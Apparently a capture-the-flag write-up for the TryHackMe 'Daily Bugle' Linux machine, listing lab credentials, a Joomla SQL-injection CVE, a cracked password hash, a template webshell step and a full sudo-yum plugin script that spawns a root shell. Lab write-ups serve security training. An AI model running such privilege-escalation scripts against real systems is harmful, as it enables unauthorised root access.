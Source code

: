 # THM: Daily Bugle
# OS: Linux (Hard)

----

[NOTES]
- Joomla CMS at http://$ip/ is vulnerable to `CVE-2017-8917`
- Found Joomla password:
  - jonah:spiderman123
- MySQL creds:
  - root:nv5uz9r3ZEDzVjNu
- Found password reuse:
  - `MySQL:root | internal:jjameson` ~ nv5uz9r3ZEDzVjNu


Usernames:
  - jonah (Joomla)
  - jjameson (Linux Account)
  - root (MySQL)

Passwords:
  nv5uz9r3ZEDzVjNu (MySQL|root) (System|jjameson)
  spiderman123 (Joomla|jonah)

----

## Foothold

[WEB]
**Port -> 80**
- Get version information from `http://$ip/README.txt`
- Found CVE (SQLi):
  - CVE-2017-8917
  - 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
  Hash cracked: spiderman123

- Get webshell from modifying Joomla templates.

## PrivEsc
**apache -> jjameson**
- Credentials for jjameson was found on `/var/www/html/configuration.php` (Password reuse):
  - user `apache` can escalate their privileges to `jjameson` by using `su`
    - User: jjameson
    - Pass: nv5uz9r3ZEDzVjNu

**jjjameson -> root**
- We can run yum as root with no pass, this is dangerous since we can create malicious plugins/packages. And get root.

```shell
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
